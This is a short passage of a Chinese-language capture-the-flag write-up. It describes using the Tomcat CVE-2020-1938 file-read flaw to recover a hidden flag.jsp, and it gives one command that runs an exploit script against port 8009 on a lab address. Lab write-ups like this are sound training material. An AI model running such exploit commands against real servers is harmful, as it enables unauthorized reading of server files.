 ![image-20200306133813884](README.assets/image-20200306133813884.png)

### 第一个flag（flag.jsp）

根据`robots.txt`提示，存在一个`flag.jsp`文件。

![image-20200306130722636](README.assets/image-20200306130722636.png)

但直接访问看不到。

![image-20200306130722637](README.assets/image-20200306130722637.png)





使用`CVE-2020-1938`漏洞读取该文件源码，可见flag。

```
python3 2020-10487.py 10.0.0.39 -p 8009 -f flag.jsp
```
